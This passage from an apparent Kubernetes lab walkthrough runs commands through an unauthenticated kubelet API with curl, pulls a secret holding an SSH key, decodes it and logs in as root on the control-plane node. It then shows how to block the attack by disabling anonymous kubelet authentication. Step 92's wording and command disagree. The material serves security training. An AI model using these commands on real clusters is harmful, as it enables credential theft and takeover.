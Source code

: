     ```shell
    curl -ks https://10.23.58.40:10250/run/dev/dev-pod/dev-web/ -d "cmd=kubectl get secret mainframe-login -o yaml" >mainframe.yaml
    ```

79. Now, parse it in the same way as above:

    ```shell
    cat mainframe.yaml | grep " mainframe-login:" | awk '{print $2}' | base64 -d
    ```

80. Ah hah! The "mainframe" in question is the Kubernetes cluster. Let's try logging into `root`'s account on the Kubernetes cluster control-plane node.

81. Copy that SSH key from this Metasploit terminal tab by highlighting it and hitting `Ctrl-Shift-C`.

82. Now, let's do all our SSH-ing from the host Kali system. Start up a new terminal window/tab on your Kali system.

83. Start up mousepad and use it to create a file you can paste the text into:

    ```shell
    mousepad /root/sshkey
    ```

84. Paste the key into mousepad with `Ctrl-V`.

85. Save the file with `Ctrl-S`.

86. Exit mousepad with `Ctrl-Q`.

87. Next, set the permissions on that key, like so:

    ```shell
    chmod 0700 /root/sshkey
    ```

88. Now, `ssh` in as `root` to the control-plane node:

    ```shell
    ssh -i /root/sshkey root@bustakube-controlplane
    ```

89. OK - so we've got `root`! We're done! Let's turn around and defend this cluster.

90. We can block those curl commands against the Kubelet by activating its Webhook authorizer and deactivating anonymous authentication. We'll be editing the kubelet's configuration file in `/var/lib/kubelet/config`.yaml.

91. This cluster automates this change with `/usr/local/bin/toggle-kubelet-anonymous.sh` - take a look at it:

    ```shell
    less /usr/local/bin/toggle-kubelet-anonymous.sh
    ```

92. Effect the change by running the toggle script with activate:

    ```shell
    /usr/local/bin/toggle-kubelet-anonymous.sh deactivate
    ```
